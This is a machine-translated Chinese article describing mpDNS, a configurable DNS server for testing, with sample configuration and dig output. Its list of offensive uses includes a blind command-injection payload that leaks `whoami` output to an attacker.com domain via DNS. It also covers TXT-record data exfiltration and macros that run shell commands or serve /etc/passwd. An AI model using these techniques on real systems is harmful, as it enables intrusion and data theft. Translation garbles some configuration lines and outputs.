

# mpDNS:多用途 DNS 服务器 2019

> 原文：<https://kalilinuxtutorials.com/mpdns-multi-purpose-dns-server/>

**mpDNS** 又名多用途 DNS 服务器是一个简单、可配置的“**克隆&运行**DNS 服务器，具有多种有用的功能。

*   应该在 Python 2 和 3 上工作
*   names.db ->保存所有定制记录(参见示例)
*   简单通配符，如*.example.com
*   捕获 unicode dns 请求
*   自定义操作也称为宏:
    *   `**{{shellexec::dig google.com +short}}**` *- >执行 shell 命令并响应结果*
    *   `**{{eval::res = '1.1.1.%d' % random.randint(0,256)}}**` *- >评估你的 python 代码*
    *   `**{{file::/etc/passwd}}**` *- >响应本地文件内容*
    *   `**{{resolve}}**` *- >将 DNS 请求转发到本地系统 DNS*
    *   `**{{resolve::example.com}}**` *- >解决 example.com 而不是原始记录*
    *   `**{{echo}}**` *- >用对等地址回复*
    *   `**{{shellexec::echo %PEER% %QUERY%}}**` *- >变量的使用*
*   支持的查询类型:`A`、`**CNAME**`、**、**、`**TXT**`
*   使用`**./mpdns.py -e**`更新`**names.db**`记录，无需重启/重新加载

大量基于[https://github . com/circuits/circuits/blob/master/examples/DNS server . py](https://github.com/circuits/circuits/blob/master/examples/dnsserver.py)

用法:`**./mpdns.py**`

*   用`**./mpdns.py -e**`编辑 **names.db** 不需要重启

**进攻和防守目的**

*   您需要一个轻量级的简单 dns 服务器解决方案用于测试目的(不是生产！)
*   测试 web 应用程序中的各种盲目注入漏洞*(例如。* `**/ping.php?ip=$(dig $(whoami).attacker.com)**` *)*
*   在一个`TXT`查询中轻松渗透 65K 数据
*   DNS 重新绑定
*   对特定查询执行自定义宏操作(在恶意软件分析实验室环境中很有用)
*   还有更多。它是高度可定制的。

**安装**

**git 克隆 https://github.com/nopernik/mpDNS**

**局限性**

*   由于 UDP 数据报限制为 65535 字节，DNS 响应被限制为大约 65200 字节
    ，这一限制适用于被分割成 256 字节块的`TXT`记录，直到响应达到最大允许值 65200 字节
    ，因此带有宏`**{{file:localfile.txt}}**`的`TXT`记录被限制为 65200 字节。
*   不支持嵌套通配符 **`test.*.example.com`**
*   在`**{{resolve::example.com}}**`宏中不支持自定义 DNS 服务器解析器
*   `**TTL**`始终设置为 **0**

**也可阅读-[Http 请求走私者:为打嗝套件](https://kalilinuxtutorials.com/http-request-smuggler-extension-burp-suite/)扩展 **

**例子**

**names.db 示例:**

**> >空配置将导致空但有效的响应
> > Unicode 域名不受支持，但仍可被服务器捕获。
> >例如мама-сервер-unicode.google.com 将被捕获，但带有 SERVFAIL 响应**
passwd.example.com TXT { { file::/etc/passwd } } #注释被忽略
shellexec TXT { { shellexec::whoami } }
eval TXT { { eval::import random；RES = random . randint(1500)} }
resolve 1a { { resolve } }
resolve 2a { { resolve::self } } #同上
resolve 3a { { resolve::example . com } }
blabla.com A 5.5.5.5
* A 127 . 0 . 0 . 1
* . example . com A 7.7.7.7
c1.example.com CNAME c2.example.com
c2.example.com CNAME c3.example.com
c3.example.com CNAME Google . example . com【T11

**带有 names.db 示例的示例输出:**

来自数据库的常规解析:dig test.example.com @ localhost

；；回答章节:
test.example.com。0 在 8.8.8.8

mpDNS 输出:–**来自 127 . 0 . 0 . 1:57698-【test.example.com 的请求。——>8.8.8.8(一)**

递归 CNAME 分解:`**dig c1.example.com @localhost**`

；；问题板块:
；c1.example.com .在一个

；；回答部分:
c1.example.com。0 在 c2.example.com CNAME。【c2.example.com】T4。0 在 c3.example.com CNAME。
c3.example.com。0 在 google.example.com CNAME。
google.example.com。0 在 google.com CNAME。
google.com。0 在 216.58.206.14

**mpDNS 输出:**

>>请求来自 127 . 0 . 0 . 1:44120-> c1.example.com。-> c2.example.com(CNAME)
>>请求从 127 . 0 . 0 . 1:44120->c2.example.com->c3.example.com(CNAME)
>>请求从 127 . 0 . 0 . 1:44120->c3.example.com->google.example.com(CNAME)
>>请求从 127 . 0 . 0 . 1:44120->google.example.com->google.com(CNAME

**通配符解析:dig not-in-db.com @ localhost**

；；回答章节:
not-in-db.com。127.0.0.1 中的 0

mpDNS 输出:–**来自 127 . 0 . 0 . 1:38528-【not-in-db.com 的请求。- > 127.0.0.1 (A)**

**通配符子域解析:dig wildcard.example.com @ localhost**

；；回答章节:
wildcard.example.com。0 在 7.7.7.7

mpDNS 输出:–**来自 127 . 0 . 0 . 1:39691-【wildcard.example.com 的请求。——>7.7.7.7(一)**

**转发请求宏:dig google.com @ localhost**

；；回答章节:
google.com。0 在 172.217.22.110

mpDNS 输出:–**来自 127 . 0 . 0 . 1:53487-【google.com 的请求。- > {{resolve::self}}(一)**

自定义域宏的转发请求:dig notgoogle.com @ localhost

；；回答章节:
notgoogle.com。0 在 172.217.22.110

mpDNS 输出:–**来自 127 . 0 . 0 . 1:47797-【notgoogle.com 的请求。- > {{resolve::google.com}}(一)**

**通过 TXT 查询文件内容宏:dig TXT passwd.example.com @ localhost**

；；回答章节:
passwd.example.com。0 IN TXT " root:x:0:0:root:/bin/bash \ 010 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin \ 010 bin:x:2:2:bin:……stripped "

mpDNS 输出:–**来自 127 . 0 . 0 . 1:38805->passwd.example.com 的请求。->**[**' root:x:0:0:root…(2808)'**](TXT)

通过 TXT 查询定制 python 代码宏:dig txt eval @localhost

；；回答部分:
eval。TXT“320”中的 0

mpDNS 输出:–**来自 127.0.0.1 的请求:33821 - > eval。->**[**【320】**](TXT)

通过 TXT 查询的 Shell 命令宏:dig txt shellexec @localhost

；；回答部分:
shellexec。TXT“root”中的 0

mpDNS 输出:–**来自 127.0.0.1:50262 - > shellexec 的请求。- >** [**【根】**](TXT)

[Download](https://github.com/nopernik/mpDNS)